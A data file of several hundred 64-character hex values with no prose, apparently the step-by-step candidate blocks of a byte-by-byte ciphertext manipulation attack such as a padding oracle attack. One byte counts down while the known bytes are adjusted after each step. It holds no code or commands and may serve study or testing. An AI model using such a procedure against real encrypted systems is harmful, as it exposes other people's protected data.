00000000000000000000c84b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c74b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c64b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c54b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c44b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c34b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c24b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c14b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c04b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000bf4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000be4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000bd4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000bc4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000bb4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ba4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b94b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b84b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b74b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b64b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b54b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b44b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b34b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b24b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b14b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000b04b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000af4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ae4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ad4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ac4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ab4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000aa4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a94b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a84b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a74b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a64b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a54b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a44b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a34b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a24b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a14b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000a04b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000009f4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000009e4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000009d4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000009c4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000009b4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000009a4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000994b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000984b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000974b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000964b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000954b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000944b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000934b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000924b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000914b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000904b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000008f4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000008e4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000008d4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000008c4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000008b4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000008a4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000894b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000884b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000874b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000864b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000854b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000844b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000834b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000824b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000814b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000804b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000007f4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000007e4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000007d4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000007c4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000007b4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000007a4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000794b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000784b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000774b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000764b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000754b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000744b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000734b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000724b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000714b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000704b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000006f4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000006e4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000006d4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000006c4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000006b4b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000006a4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000694b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000684b700d002afe249615e3e8da834ab4e67cc0348cc4
000000000000000000ff694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000fe694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000fd694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000fc694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000fb694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000fa694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f9694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f8694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f7694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f6694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f5694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f4694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f3694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f2694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f1694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000f0694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ef694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ee694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ed694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ec694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000eb694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ea694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e9694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e8694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e7694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e6694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e5694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e4694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e3694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e2694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e1694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000e0694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000df694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000de694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000dd694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000dc694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000db694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000da694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d9694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d8694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d7694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d6694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d5694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d4694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d3694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d2694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d1694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000d0694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000cf694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ce694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000cd694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000cc694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000cb694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ca694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c9694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c8694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c7694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c6694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c5694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c4694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c3694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c2694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c1694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000c0694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000bf694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000be694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000bd694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000bc694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000bb694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ba694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b9694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b8694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b7694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b6694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b5694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b4694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b3694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b2694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b1694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000b0694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000af694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ae694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ad694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ac694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000ab694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000aa694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a9694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a8694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a7694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a6694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a5694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a4694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a3694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a2694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a1694a710c012bfe249615e3e8da834ab4e67cc0348cc4
000000000000000000a0694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000009f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000009e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000009d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000009c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000009b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000009a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000099694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000098694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000097694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000096694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000095694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000094694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000093694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000092694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000091694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000090694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000008f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000008e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000008d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000008c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000008b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000008a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000089694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000088694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000087694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000086694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000085694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000084694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000083694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000082694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000081694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000080694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000007f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000007e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000007d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000007c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000007b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000007a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000079694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000078694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000077694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000076694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000075694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000074694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000073694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000072694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000071694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000070694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000006f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000006e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000006d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000006c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000006b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000006a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000069694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000068694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000067694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000066694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000065694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000064694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000063694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000062694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000061694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000060694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000005f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000005e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000005d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000005c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000005b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000005a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000059694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000058694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000057694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000056694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000055694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000054694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000053694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000052694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000051694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000050694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000004f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000004e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000004d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000004c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000004b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000004a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000049694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000048694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000047694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000046694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000045694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000044694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000043694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000042694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000041694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000040694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000003f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000003e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000003d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000003c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000003b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000003a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000039694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000038694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000037694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000036694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000035694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000034694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000033694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000032694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000031694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000030694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000002f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000002e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000002d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000002c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000002b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000002a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000029694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000028694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000027694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000026694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000025694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000024694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000023694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000022694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000021694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000020694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000001f694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000001e694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000001d694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000001c694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000001b694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000001a694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000019694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000018694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000017694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000016694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000015694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000014694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000013694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000012694a710c012bfe249615e3e8da834ab4e67cc0348cc4
00000000000000000011694a710c012bfe249615e3e8da834ab4e67cc0348cc4
0000000000000000ff1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000fe1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000fd1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000fc1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000fb1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000fa1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f91e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f81e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f71e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f61e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f51e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f41e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f31e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f21e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f11e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000f01e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ef1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ee1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ed1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ec1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000eb1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ea1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e91e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e81e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e71e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e61e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e51e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e41e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e31e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e21e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e11e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000e01e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000df1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000de1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000dd1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000dc1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000db1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000da1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d91e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d81e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d71e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d61e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d51e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d41e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d31e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d21e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d11e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000d01e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000cf1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ce1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000cd1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000cc1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000cb1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ca1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c91e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c81e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c71e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c61e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c51e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c41e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c31e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c21e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c11e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000c01e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000bf1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000be1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000bd1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000bc1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000bb1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ba1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b91e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b81e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
